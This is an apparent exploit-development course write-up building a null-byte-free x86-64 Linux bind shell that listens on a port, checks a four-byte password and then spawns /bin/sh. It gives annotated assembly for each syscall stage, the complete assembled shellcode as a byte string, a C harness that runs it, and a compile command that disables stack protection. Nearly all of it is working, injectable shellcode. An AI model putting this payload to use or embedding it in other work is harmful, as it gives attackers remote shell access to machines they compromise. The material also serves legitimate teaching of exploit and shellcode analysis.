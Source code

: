 # Bindshell with Password

This assignment was split in two parts:
1. Make the BindShell-Shellcode from the class free of nullbytes
2. Create a BindShell-Shellcode which spawns a shell after a certain password has been entered

I first created a nullbyte-free version of the shellcode from the class and then extended it with an authentication mechanism. The shellcode consists of 8 stages:

## Create a socket 

This part of the shellcode basically does:
```
socket(AF_INET, SOCK_STREAM, 0)
```

And is achieved by:
```
    xor rax, rax
    cdq
    push SYS_SOCKET
    pop rax ; RAX contains the socket() syscall
    push AF_INET
    pop rdi ; rdi contains the AF_INET parameter
    push SOCK_STREAM
    pop rsi ; rsi contains the SOCK_STREAM parameter

    SYSCALL
```

The comments should be self-explaining. Note that I made use of the ```push pop``` technique to fill the registers with the right values. The push pop technique avoids null bytes and is shorter then the ```mov``` instruction. 
Also I used cdq to clear out the RDX register which is possible as RAX is 0 at this point.

## Bind the socket
Again the following piece of shellcode is equivalent to this C snippet:
```
bind(sockfd, const struct sockaddr *addr, 16)
```

Assembly:
```
    ; First set up the struct sockaddr_in on the stack
    push rdx        ; sin_zero
    add dx, PORT    ; Place the port in the struct
    shl rdx, 16     ; Shift the port to the right position
    add dx, AF_INET ; add the af_inet flag to the struct
    push rdx        ; Put the struct on the stack
    push rsp
    pop rsi         ; Rsi now points to the struct

    push rax        ; Rax still contains the created socket
    pop rdi         ; The socket is now in Rdi
    push SIZE_STRUCT
    pop rdx         ; Rdx does now contain the size of the struct

    push SYS_BIND
    pop rax         ; Rax equals the syscallnumber for bind

    SYSCALL
```

In order to create the struct I made use of shifting and used the lower bit registers to arrange the struct.

## Listen
C pseudocode:
```
; listen(fd, 1)
```
```
    push rax ; Rax should contain null as bind() is expected to work successfully
    pop RSI
    inc RSI  ; Rsi is now 1
    push SYS_LISTEN
    pop RAX  ; Rax has the syscallnumber for listen

    SYSCALL
```
Nothing surprising here, note that I rely on bind() returning 0 :-)

## Accept:
C pseudocode:
```
    ; accept(sockfd, struct sockaddr *addr, 16)
```
Assembly:
```
    push rsp ; Reuse old struct
    pop rsi  ; Rsi points to struct
    push SIZE_STRUCT
    push RSP 
    pop RDX ; Pointer to the size of the struct in RDX
    push SYS_ACCEPT
    pop RAX

    SYSCALL
```

In this step I reused the old struct on the stack for the accept call. To do so I rely on the fact that the Rsp has the same value as it had during the bind syscall. 

## Authentication
I first read 4 bytes from the new socket an then compare it to a defined constant.

To read the password I did this in C pseudocode:
```
    ; read(fd, *buf, 4)
```

Assembly:
```
    add RSI, 8 ; Make it point to sin_zero of sockaddr. We dont need this anymore
    push RAX ; Rax still contains the accepted socket
    pop RDI ; Rdi contains the new socket
    xor al, al ; Clear out rax
    push 0x4 ; Specify num_bytes to read
    pop RDX

    SYSCALL ; Do the read
```

Note that I store the read password in the sin_zero field of the sockaddr_in struct. I mean ... there are nullbytes already which mark the end of the password. :-)

To compare the entered password with the constant I did:
```
    cmp dword[rsi], PASSWORD ; Rsi still points to the sin_zero field which contains the entered pw.
    jne _burn ; Cause a sigsegv upon a wrong password
```

## DUP 2
The next step is to redirect stdin, stdout and stderr to the new socket. Otherwise we would not see any output from the shell as it prints out to stdout, not to the socket.

For this I created a loop which decrements a counter starting from 2-0. It starts from 2 as 2 marks stderr and 0 stdin.

Assembly:
```
_dup2:
   ; dup2(client, STDIN)
   ; dup2(client, STDOUT)
   ; dup2(client, STERR)

    push 3 
    pop rsi

_loop:
    
    dec esi
    push SYS_DUP2
    pop rax
    SYSCALL

    jne _loop
```

## Finally call execve
This is a pretty standard way to call execve('/bin/sh', NULL, NULL)
```

    cdq ; Null out rdx. Rax should still be zero because the last dup2() redirected stdin.
    push rax    
    mov rax, BINSH ; BINSH hexstring in rax
    push rax           
    push rsp ; get a pointer to binsh
    pop rdi           

    xor rax, rax
    mov al, SYS_EXECVE 
    syscall
```

In order to test this shellcode I made use of the following C snippet:
```

#include <string.h>
 
char shellcode[] = "\x6a\x29\x58\x6a\x02\x5f\x6a\x01\x5e\x99\x0f\x05\x52\x66\x81\xc2\x11\x5c\x48\xc1\xe2\x10\x66\x83\xc2\x02\x52\x54\x5e\x50\x5f\x6a\x10\x5a\x6a\x31\x58\x0f\x05\x50\x5e\x48\xff\xc6\x6a\x32\x58\x0f\x05\x54\x5e\x6a\x10\x54\x5a\x6a\x2b\x58\x0f\x05\x48\x83\xc6\x08\x50\x5f\x30\xc0\x6a\x04\x5a\x0f\x05\x81\x3e\x41\x41\x41\x41\x75\x22\x6a\x03\x5e\xff\xce\x6a\x21\x58\x0f\x05\x75\xf7\x99\x50\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x54\x5f\x48\x31\xc0\xb0\x3b\x0f\x05";
 
main(void)
{       
        printf("Shellcode length: %d\n", (int)strlen(shellcode));
 
        /* pollute registers and call shellcode */
        __asm__ (        "mov $0xffffffffffffffff, %rax\n\t"
                         "mov %rax, %rbx\n\t"
                         "mov %rax, %rcx\n\t"
                         "mov %rax, %rdx\n\t"
                         "mov %rax, %rsi\n\t"
                         "mov %rax, %rdi\n\t"
                         "mov %rax, %rbp\n\t"
 
                         "call shellcode"       );
}
 
```

Compile:
```
gcc -m64 -z execstack -fno-stack-protector Test.c -o Test -no-pie
```



